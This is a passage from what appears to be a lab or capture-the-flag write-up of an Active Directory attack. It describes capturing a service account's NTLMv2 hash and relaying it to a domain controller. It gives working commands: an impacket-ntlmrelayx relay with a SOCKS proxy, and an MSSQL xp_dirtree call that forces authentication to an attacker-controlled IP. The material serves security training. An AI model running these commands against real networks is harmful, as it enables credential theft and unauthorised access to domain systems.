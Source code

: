 As you can see we got NTLMv2 hash of svc_web_staging user. Not let's try to relay it to DC.

### Note that IP addresses of machines are changed

```sql
impacket-ntlmrelayx -smb2support -socks -socks-port 1080 -t 10.10.214.101
```
![](image-11.png)

\
We started the impacket-ntlmrelay and we need to wait the connection to our machine. As the target we can choose the DC01.

```sql
exec xp_dirtree '\\10.8.0.238\something';
```